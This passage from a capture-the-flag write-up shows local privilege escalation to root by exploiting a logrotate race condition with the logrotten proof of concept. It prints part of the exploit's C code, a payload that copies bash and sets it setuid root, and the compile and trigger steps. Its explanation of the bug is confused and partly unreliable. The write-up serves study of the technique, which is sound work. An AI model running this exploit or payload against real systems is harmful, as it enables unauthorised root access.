 Among these only `/home/reader/backups/access.log` file we have write permission.

I started checking for exploits and found this.

### Reference:

> https://github.com/whotwagner/logrotten

> https://tech.feedyourhead.at/content/details-of-a-logrotate-race-condition

So according to the article, Logrotate uses Race-Condition when multiple threads try to access shared data. Since logrotate was running for keeping the loggings of action by the root user, and the log directory path which was `/home/reader/backups/access.log`, what we had to do was, since logrotate had a number of race condition bugs previously reported to it, all we had to do is do a symlink, create a systematic link between files so that the file we created(Payload) should be provided as a systematic link to that of the ones we had access to, in our case `access.log`.

The logrotten exploit is a POC that exploit the race condition:-

```
while(1)
{
  i=0;
  length = read( fd, buffer, EVENT_BUF_LEN ); 
 
  while (i < length) {     
      struct inotify_event *event = ( struct inotify_event * ) &buffer[ i ];     if ( event->len ) {
      if ( event->mask & IN_MOVED_FROM ) {
      if(strcmp(event->name,p) == 0)
      {
            /* printf( "Something is moved %s.\n", event->name ); */
            rename(logpath,logpath2);
            symlink(targetdir,logpath);
        sleep(1);
        source = fopen(payloadfile, "r");        
        if(source == NULL)
            exit(EXIT_FAILURE);
```

It creates a symlink, to that of payload file, for example:- Payload:

```
if [ `id -u` -eq 0 ]; then (cp /bin/bash /tmp;chmod 4755 /tmp/bash);
fi
```

Compile:

```
gcc -o logrotten logrotten.c
```

I compiled it in my machine and uploaded. To run that exploit we need to give the log file path which is `/home/reader/backups/access.log`, Let’s run the exploit.

Now we need to wait for logrotate to `access.log` the actions, I did that by `echo "Give me Root" > access.log`

![Untitled](/img/htb-book/23.png)

I’m Root!!